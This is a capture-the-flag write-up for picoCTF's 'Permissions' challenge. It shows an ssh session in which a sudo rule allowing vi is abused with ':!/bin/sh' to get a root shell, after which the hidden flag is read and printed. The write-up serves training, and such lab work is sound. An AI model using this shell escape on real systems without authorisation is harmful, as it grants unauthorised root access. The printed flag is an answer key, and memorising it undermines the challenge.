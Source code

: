# Permissions

Author: Geoffrey Njogu

Location: https://play.picoctf.org/events/72/challenges/challenge/363

Tags: General Skills, vim

## Problem

> Can you read files in the root file? Additional details will be available after launching your challenge instance.

This challenge also comes with the hint "What permissions do you have?"

## Solution

I started by launching an instance of the challenge (Figure 1). I then proceeded to log into the system via ``ssh``, as shown below:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 52131 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ 
```

Given the tag of "vim", the hint and the challenge name of "Permissions", I figured that I would be exploiting a GTFO bin to get root privileges. I queried the GTFOBin entry on ``vim`` [1] and first wanted to see if I could run it via ``sudo``:

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ 
```

It seems that I can. So, I used the following command to get root:

```
picoplayer@challenge:~$ sudo vim -c ':!/bin/sh'
Sorry, user picoplayer is not allowed to execute '/usr/bin/vim -c :!/bin/sh' as root on challenge.
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

I then searched for a potential flag:

```
# ls -l /root
total 0
# ls -la /root
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Mar 16 19:37 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
# 
```

Excellent.

## References

1. https://gtfobins.github.io/gtfobins/vim/
